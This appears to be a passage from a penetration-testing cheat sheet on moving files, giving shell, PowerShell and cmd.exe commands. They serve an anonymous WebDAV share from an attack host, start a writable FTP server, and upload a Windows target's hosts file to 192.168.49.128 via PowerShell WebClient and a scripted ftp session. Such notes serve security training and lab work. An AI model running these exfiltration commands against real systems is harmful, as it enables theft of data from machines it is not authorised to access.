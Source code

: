 #### Install `wsgidav` and `cheroot`, which are both needed for doing SMB downloads over WebDAV
```Shell
pip install wsgidav cheroot
```

#### Set up the WebDAV module
```Shell
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

#### Windows machine connect to the WebDAV share using the DavWWWRoot directory. Can also use` \sharefolder\` or another folder that exists on your attack host
```Shell
dir \\192.168.49.128\DavWWWRoot
```


### Windows - FTP Uploads

#### Start an FTP server over Python
```Shell
python3 -m pyftpdlib --port 21 --write
```

#### Upload our file to the FTP server over PowerShell
```PowerShell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### Create a Command File for the FTP Client to Upload a File
```cmd.exe
echo open 192.168.49.128 > ftpcommand.txt
```

```cmd.exe
echo USER anonymous >> ftpcommand.txt
```

```cmd.exe
echo binary >> ftpcommand.txt
```

```cmd.exe
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
```

```cmd.exe
echo bye >> ftpcommand.txt
```

```cmd.exe
ftp -v -n -s:ftpcommand.txt
```
